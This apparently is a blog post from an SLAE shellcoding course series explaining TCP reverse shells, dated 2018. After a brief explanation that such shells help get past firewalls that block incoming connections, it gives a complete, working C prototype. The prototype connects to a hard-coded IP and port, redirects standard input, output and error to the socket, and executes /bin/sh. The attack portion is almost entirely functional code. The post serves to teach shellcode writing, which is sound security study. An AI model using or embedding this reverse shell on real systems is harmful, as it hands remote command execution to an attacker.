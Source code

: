 ```yaml
---
layout: single
title: TCP reverse shellcode
date: 2018-11-18 12:00:00
classes: wide
categories:
  - slae
  - infosec
tags:
  - slae
  - assembly
  - tcp reverse shellcode
---
```


A TCP reverse shell connects back to the attacker machine, then executes a shell and redirects all input & output to the socket. This is especially useful when a firewall denies incoming connections but allows outgoing connections.

### C prototype
---------------
First, a C prototype is created to test the functionality before building the final shellcode in assembly.

This is the C protype used for the reverse shellcode:
```c
#include <netinet/in.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <unistd.h>

int main()
{
    // Create addr struct
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);    // Port
    addr.sin_addr.s_addr = inet_addr("127.0.0.1");  // Connection IP

    // Create socket
    int sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (sock == -1) {
        perror("Socket creation failed.\n");
        exit(EXIT_FAILURE);
    }

    // Connect socket
    if (connect(sock, (struct sockaddr *) &addr, sizeof(addr)) == -1) {
        perror("Socket connection failed.\n");
        close(sock);
        exit(EXIT_FAILURE);
    }

    // Duplicate stdin, stdout, stderr to socket
    dup2(sock, 0); //stdin
    dup2(sock, 1); //stdout
    dup2(sock, 2); //stderr

    //Execute shell
    execve("/bin/sh", NULL, NULL);
}
```
